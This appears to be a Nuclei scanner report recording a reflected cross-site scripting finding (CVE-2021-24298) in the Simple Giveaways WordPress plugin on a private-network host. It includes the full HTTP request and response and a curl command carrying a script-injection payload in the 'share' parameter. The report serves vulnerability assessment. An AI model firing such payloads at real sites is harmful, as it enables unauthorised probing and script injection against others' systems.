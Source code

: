 ### Simple Giveaways < 2.36.2 - Reflected Cross-Site Scripting (XSS) (CVE-2021-24298) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-24298**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/giveaway/mygiveaways/?share=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Simple Giveaways < 2.36.2 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2021, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | The method and share GET parameters of the Giveaway pages were not sanitised, validated or escaped before being output back in the pages, thus leading to reflected XSS |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-24298](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-24298) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /giveaway/mygiveaways/?share=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 218
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/giveaway/mygiveaways/?share=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2021-24298
- https://codevigilant.com/disclosure/2021/wp-plugin-giveasap-xss/
- https://wpscan.com/vulnerability/30aebded-3eb3-4dda-90b5-12de5e622c91

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36' 'http://192.168.198.179:8080/giveaway/mygiveaways/?share=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)